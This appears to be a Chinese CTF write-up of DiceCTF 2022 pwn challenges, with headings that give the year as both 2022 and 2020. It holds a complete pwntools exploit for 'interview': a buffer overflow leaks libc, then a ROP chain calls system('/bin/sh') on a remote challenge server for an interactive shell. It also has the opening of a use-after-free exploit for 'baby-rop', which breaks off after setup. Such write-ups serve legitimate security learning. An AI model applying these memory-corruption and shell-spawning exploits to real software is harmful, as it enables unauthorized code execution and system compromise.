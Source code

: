 # DiceCTF2022


# DiceCTF2020

DiceCTF题目好怪啊

## interview

在主函数有一个溢出，覆盖main的返回地址为`_libc_strat_main`内，可以再次调用main同时得到libc地址。

```python
from pwn import *
leak = lambda name,addr: log.success('{0}\t--->\t{1}'.format(name, hex(addr)))

binary = './interview-opportunity'
libc = './libc.so.6'
context.terminal = ['tmux', 'splitw', '-h']
context.binary = binary
context.log_level='debug'
# p = process(binary)
p = remote('mc.ax', 31081)
elf = ELF(binary, checksec=False)
libc = ELF(libc, checksec=False)

# gdb.attach(p, "b *0x401276")
payload = "A"*0x1a + "B"*0x8 + "\x03"
p.sendafter("DiceGang?\n", payload)

p.recvuntil("B"*0x8)
libcbase = u64(p.recv(6).ljust(8, "\x00")) - 0x26d03
leak("libc base", libcbase)

pop_rdi = libcbase + 0x0000000000026796
binsh = libcbase + 0x000000000018a152
system = libcbase + libc.sym['system']

payload = "A"*0x1a + "B"*0x8 + p64(pop_rdi) + p64(binsh) + p64(system)
p.sendafter("DiceGang?\n", payload)

p.interactive()

```

## baby-rop

uaf，通过对ub中的chunk的复用泄漏libc地址，uaf控制一个strings的结构体，从而可以任意地址读写，泄露栈地址，向栈中写rop

```python
from multiprocessing.dummy import Value
from os import environ
from webbrowser import get
from pwn import *
leak = lambda name,addr: log.success('{0}\t--->\t{1}'.format(name, hex(addr)))

binary = './babyrop'
libc = './libc.so-2.6'
context.terminal = ['tmux', 'splitw', '-h']
context.binary = binary
context.log_level='debug'
# p = process(binary)
p = remote('mc.ax', 31245)
elf = ELF(binary, checksec=False)
```